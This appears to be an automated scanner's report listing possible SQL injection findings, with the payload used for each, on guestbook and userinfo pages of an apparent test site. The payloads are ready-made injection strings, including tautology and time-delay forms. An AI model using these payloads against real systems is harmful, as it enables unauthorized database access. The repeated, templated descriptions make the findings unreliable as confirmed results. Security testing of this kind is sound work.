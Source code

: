 ## Possible SQL Injection
- **URL:** http://testphp.vulnweb.com/guestbook.php
- **Payload:** `' OR 1=1 --`
- **Severity:** High
- **Description:** Database error message detected

## Possible SQL Injection
- **URL:** http://testphp.vulnweb.com/guestbook.php
- **Payload:** `" OR "1"="1`
- **Severity:** High
- **Description:** Database error message detected

## Possible SQL Injection
- **URL:** http://testphp.vulnweb.com/guestbook.php
- **Payload:** `'; WAITFOR DELAY '0:0:5' --`
- **Severity:** High
- **Description:** Database error message detected

## Possible SQL Injection
- **URL:** http://testphp.vulnweb.com/userinfo.php
- **Payload:** `' OR '1'='1`
- **Severity:** High
- **Description:** Database error message detected

## Possible SQL Injection
- **URL:** http://testphp.vulnweb.com/userinfo.php
- **Payload:** `' OR 1=1 --`
- **Severity:** High
- **Description:** Database error message detected

## Possible SQL Injection
- **URL:** http://testphp.vulnweb.com/userinfo.php
- **Payload:** `" OR "1"="1`
- **Severity:** High
- **Description:** Database error message detected

## Possible SQL Injection
- **URL:** http://testphp.vulnweb.com/userinfo.php
- **Payload:** `'; WAITFOR DELAY '0:0:5' --`
- **Severity:** High
- **Description:** Database error message detected

## Possible SQL Injection
- **URL:** http://testphp.vulnweb.com/userinfo.php
- **Payload:** `' OR '1'='1`
- **Severity:** High
- **Description:** Database error message detected
